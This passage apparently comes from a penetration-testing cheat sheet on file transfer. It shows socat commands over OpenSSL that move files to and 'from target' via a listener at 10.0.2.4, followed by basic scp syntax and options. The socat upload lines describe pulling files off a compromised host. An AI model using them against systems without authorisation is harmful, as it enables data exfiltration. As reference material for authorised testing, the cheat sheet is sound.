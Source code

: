 Connect and download file:
```bash
socat -u openssl-connect:10.0.2.4:5778 STDOUT,verify=0 > /tmp/target/downloaded.txt
```

#### Upload file from target
Start listener:
```bash
socat -u openssl-listen:5778,reuseaddr,cert=/tmp/whatever/socat.pem,verify=0 STDOUT > /tmp/whatever/uploaded.txt
```

Connect and upload:
```bash
socat -u FILE:"/tmp/whatever/upload.txt" openssl-connect:10.0.2.4:5778,verify=0
```

## SSH/SCP

```default
+--[ SSH SCP ]----+ 
|      .-""-.     |
|     / .--. \    |
|    / /    \ \   |
|    | |    | |   |
|    | |.-""-.|   |
|   ///`.::::.`\  |
|  ||| ::/  \:: ; |
|  ||; ::\__/:: ; |
|   \\\ '::::' /  |
|    `=':-..-'`   |
+-----------------+
```

Secure file copying via SSH can be achieved with the SCP tool. If a machine has OpenSSH, then you can expect that it also has this tool installed.

```bash
scp <source> <destination>
```

Example:
```bash
scp SourceFile user@host:/directory/TargetFile
```

Some Params:
```bash
-P # Specifies the remote host ssh port.
-p # Preserves files modification and access times.
-q # Use this option if you want to suppress the progress meter and non-error messages.
-C # This option forces scp to compresses the data as it is sent to the destination machine.
-r # This option tells scp to copy directories recursively
-i ~/.ssh/id_rsa # SSH identity key file
```
